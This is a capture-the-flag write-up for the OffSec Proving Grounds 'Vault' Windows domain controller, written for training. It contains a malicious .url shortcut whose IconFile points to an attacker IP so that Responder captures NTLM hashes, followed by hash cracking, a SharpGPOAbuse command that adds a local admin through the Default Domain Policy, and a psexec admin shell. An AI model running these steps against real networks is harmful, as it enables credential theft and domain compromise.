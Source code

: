 ```yaml
---
title: "Proving grounds Practice: Vault"
layout: post
date: 2023-08-12 12:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Windows
- Pg-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice windows machine writeup"
---
```


# Walkthrough on Youtube
[![youtube](/assets/images/CTF/Proving_Grounds/Vault/youtube.png)](https://youtu.be/JocbrhLXuss)

## NMAP
```sh
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-13 04:53:47Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
```

Domain name: `vault.offsec`

## SMB share
```sh
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DocumentsShare  Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

## Writing files to DocumentsShare

![smb doc share](/assets/images/CTF/Proving_Grounds/Vault/smb-doc-share.png)

## Obtain NTLM Hash via uploading URL file

Run `responder` as root to listed for events to capture the NTLM Hash.

```text
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.45.170\%USERNAME%.icon
IconIndex=1
```

IP address should be `responder IP`.

![Obtain NTLM](/assets/images/CTF/Proving_Grounds/Vault/NTLM.png)

**Crack the hash using john**

![crack the hash](/assets/images/CTF/Proving_Grounds/Vault/john-pass-crack.png)

**Connect to attacking machine using extracted credentials**

![Machine connect](/assets/images/CTF/Proving_Grounds/Vault/evil-rm-connect.png)

## Enumerate system user privileges

![User Privilege](/assets/images/CTF/Proving_Grounds/Vault/windows_priv.png)

## Privilege Escalation

Create a tmp directory in root directory and move [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to the attacking machine.

## Enumerate Group Policies

**Default Domain Policy**

```powershell
PS C:\tmp> Get-GPO -Name "Default Domain Policy"

DisplayName      : Default Domain Policy
DomainName       : vault.offsec
Owner            : VAULT\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 11/19/2021 12:50:33 AM
ModificationTime : 11/19/2021 2:00:32 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 4, SysVol Version: 4
WmiFilter        :
```

**Get GPPermission for anirudh**

```powershell
PS C:\tmp> Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetType User -TargetName anirudh

Trustee     : anirudh
TrusteeType : User
Permission  : GpoEditDeleteModifySecurity
Inherited   : False
```
`Permission  : GpoEditDeleteModifySecurity`

## Abuse Group Policy

[SharpGPOAbuse GitHub](https://github.com/FSecureLABS/SharpGPOAbuse)

Compile and download the binary to the attacking machine.

Download precompiled binary from [here](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master).

**Abuse vulnerable GPO to create new local admin to the attacking machine**

```powershell
PS C:\tmp> ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```

![GitHub](/assets/images/CTF/Proving_Grounds/Vault/gpo-abuse1.png)

Force update group policy `gpupdate /force`

**Check local group administrators list**

```powershell
PS C:\tmp> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------------------
Administrator
anirudh
The command completed successfully.
```

Use Psexec to get interactive administrator shell.

```sh
Usage:-
python3 psexec.py domain_name/username:password@IP
```

![GitHub](/assets/images/CTF/Proving_Grounds/Vault/psexec1.png)

`proof.txt` obtained.

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).